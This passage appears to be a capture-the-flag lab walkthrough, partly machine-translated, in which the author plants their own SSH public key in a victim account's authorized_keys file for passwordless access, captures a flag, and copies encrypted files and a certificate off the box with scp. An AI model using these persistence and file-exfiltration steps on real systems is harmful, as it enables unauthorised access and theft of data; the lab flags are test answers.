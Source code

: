 ```
                                         //.-~~~--\
$
```

  

Again we are going to write our password `publica`as a password `autorizada`on the victim machine so that later we can connect without a password by`ssh`

```
$ mkdir .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE7DwLVBJlEPeKvWMKsQTsU7m4ULfVSJRx1hVaZAo0Rv kali@kali" > .ssh/authorized_keys  
$
```

  

```
❯ ssh membermanager@10.13.37.10
membermanager@jet:~$ id
uid=1006(membermanager) gid=1006(membermanager) groups=1006(membermanager)  
membermanager@jet:~$ hostname -I
10.13.37.10
membermanager@jet:~$ head -n1 flag.txt 
JET{h34p_f0r_73h_b4bi3z}
membermanager@jet:~$
```

  

  

### More Secrets

#### JET{n3xt_t1m3_p1ck_65537}

  

In the `home`user's directory `tony`we can find we have 2 files with an extension `.enc`and a public key which has the name`public.crt`

```
membermanager@jet:/home/tony$ ls -l *
-rw-r--r-- 1 root root  129 Dec 28  2017 key.bin.enc  
-rw-r--r-- 1 root root 4768 Dec 28  2017 secret.enc

keys:
-rw-r--r-- 1 root root 451 Dec 28  2017 public.crt
membermanager@jet:/home/tony$
```

  

To work locally we can download the files using `recursiva`the `scp`connection `ssh`we have

```
❯ scp -r membermanager@10.13.37.10:"/home/tony/*" .
key.bin.enc                                  100%  129     0.7KB/s   00:00
public.crt                                   100%  451     2.3KB/s   00:00
secret.enc                                   100% 4768    24.5KB/s   00:00  

❯ tree 
.
├── key.bin.enc
├── keys
│   └── public.crt
└── secret.enc

2 directories, 3 files
```
